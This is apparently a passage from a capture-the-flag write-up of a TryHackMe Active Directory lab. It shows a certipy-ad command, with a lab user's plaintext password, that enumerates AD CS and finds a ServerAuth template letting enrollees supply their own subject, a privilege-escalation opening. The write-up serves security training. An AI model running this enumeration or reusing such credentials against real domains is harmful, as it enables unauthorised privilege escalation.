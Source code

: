 
## Privilege Escalation:
+ Using tool `certipy-ad` (Installed Default in Kali) to check AD CS for vulnerable certificate templates.
```bash
$ certipy-ad find -u 'SUSANNA_MCKNIGHT@thm.local' -p 'CHANGEME2023!' -target <IP> -stdout -vulnerable 
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 37 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 14 enabled certificate templates
[*] Finding issuance policies
[*] Found 21 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'thm-LABYRINTH-CA' via RRP
[*] Successfully retrieved CA configuration for 'thm-LABYRINTH-CA'
[*] Checking web enrollment for CA 'thm-LABYRINTH-CA' @ 'labyrinth.thm.local'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : thm-LABYRINTH-CA
    DNS Name                            : labyrinth.thm.local
    Certificate Subject                 : CN=thm-LABYRINTH-CA, DC=thm, DC=local
    Certificate Serial Number           : 5225C02DD750EDB340E984BC75F09029
    Certificate Validity Start          : 2023-05-12 07:26:00+00:00
    Certificate Validity End            : 2028-05-12 07:35:59+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : THM.LOCAL\Administrators
      Access Rights
        ManageCa                        : THM.LOCAL\Administrators
                                          THM.LOCAL\Domain Admins
                                          THM.LOCAL\Enterprise Admins
        ManageCertificates              : THM.LOCAL\Administrators
                                          THM.LOCAL\Domain Admins
                                          THM.LOCAL\Enterprise Admins
        Enroll                          : THM.LOCAL\Authenticated Users
Certificate Templates
  0
    Template Name                       : ServerAuth
    Display Name                        : ServerAuth
    Certificate Authorities             : thm-LABYRINTH-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Extended Key Usage                  : Client Authentication
                                          Server Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
```